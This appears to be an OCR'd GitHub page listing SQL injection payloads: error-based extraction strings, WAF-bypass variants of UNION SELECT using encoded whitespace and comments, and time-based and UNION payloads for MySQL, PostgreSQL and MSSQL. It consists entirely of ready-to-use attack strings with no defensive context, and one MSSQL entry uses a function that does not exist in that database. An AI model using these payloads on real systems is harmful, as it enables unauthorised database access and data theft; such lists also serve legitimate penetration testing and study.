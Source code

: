 ### Error-Based Payloads
```
' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))--
' AND updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)--
' AND cast((SELECT version()) as int)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### WAF Bypass Payloads
```
'/**/UNION/**/SELECT/**/1,2,3--
'%0AUNION%0ASELECT%0A1,2,3--
'%09UNION%09SELECT%091,2,3--
'%0DUNION%0DSELECT%0D1,2,3--
'%0CUNION%0CSELECT%0C1,2,3--
'%0BUNION%0BSELECT%0B1,2,3--
'%A0UNION%A0SELECT%A01,2,3--
```

### Database-Specific Payloads

#### MySQL
```
' AND SLEEP(5)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))--
' AND updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)--
' UNION SELECT 1,version(),3,4--
' UNION SELECT 1,database(),3,4--
' UNION SELECT 1,user(),3,4--
```

#### PostgreSQL
```
' AND pg_sleep(5)--
' AND (SELECT pg_sleep(5))--
' AND cast((SELECT version()) as int)--
' UNION SELECT 1,version(),3,4--
' UNION SELECT 1,current_database(),3,4--
' UNION SELECT 1,current_user,3,4--
```

#### MSSQL
```
' AND WAITFOR DELAY '00:00:05'--
' AND (SELECT COUNT(*) FROM sysobjects WHERE SLEEP(5))--
' UNION SELECT 1,@@version,3,4--
' UNION SELECT 1,db_name(),3,4--
' UNION SELECT 1,suser_name(),3,4--
```
